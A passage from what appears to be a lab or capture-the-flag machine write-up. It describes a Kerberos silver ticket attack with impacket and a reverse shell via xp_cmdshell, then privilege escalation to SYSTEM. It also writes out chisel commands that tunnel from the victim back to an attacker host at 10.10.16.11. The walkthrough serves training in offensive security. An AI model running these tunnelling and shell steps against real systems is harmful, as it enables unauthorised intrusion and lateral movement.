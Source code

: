 However, I know the password of the sql service account. Thus, I can apply silver ticket attack to generate an Administrator ticket to access mssql service as dbadmin.

First I checked the SPN of the sqlsvc user.

<img width="719" height="242" alt="23 - spn" src="https://github.com/user-attachments/assets/d3a37330-096c-4a43-a578-972925405478" />

Then generated NTLM hash from the cleartext password. And applied silver ticket attack using impacket-ticketer.

<img width="1612" height="278" alt="24 - silver ticket" src="https://github.com/user-attachments/assets/75b27684-951b-42af-a395-4880eddd68fb" />

Now there was a problem, I can't login to the target service because it is internal. I need to apply portforwarding. So I used chisel and applied below steps:
1. Update the `/etc/proxychains4.conf`
    ```powershell
    #socks4 127.0.0.1 9050
    socks5  127.0.0.1 1080
    ```
2. Set Reverse Listener on attacker site:
    ```bash
    chisel server --reverse --port 443
    ```
3. Set client on the victim side:
    ```bash
    chisel.exe client 10.10.16.11:443 R:socks
    ```
4. Now we can access the internal network.

So I used impacket-mssqlclient with the generated ticket to get an intercative SQL shell. Then while listening with netcat, I ran a reverse shell using xp_cmdshell.

<img width="1632" height="511" alt="26 - mssqlclient" src="https://github.com/user-attachments/assets/2c428b06-a81f-415f-868c-b2d524d5272d" />

I got the shell as sqlsvc user. The user had SeImpersontaePrivileges.

<img width="834" height="391" alt="27 - seimpersonate" src="https://github.com/user-attachments/assets/74092682-aefb-4ce5-8cd8-b3ad7394a389" />

I used SigmaPatato to abuse SeImpersonatePrivileges and got a system shell.

<img width="727" height="82" alt="28 - sigma patato" src="https://github.com/user-attachments/assets/8019523f-949c-4e76-9782-9504cbc6deea" />

<img width="614" height="140" alt="29 - got the system" src="https://github.com/user-attachments/assets/f431cb89-3d37-4e99-b247-935efd499b2b" />

## Pwned
The machine wass fully compromised.

<img width="719" height="696" alt="PWNED" src="https://github.com/user-attachments/assets/cf775bfa-fa9d-483c-84f2-5cedec9ef19d" />

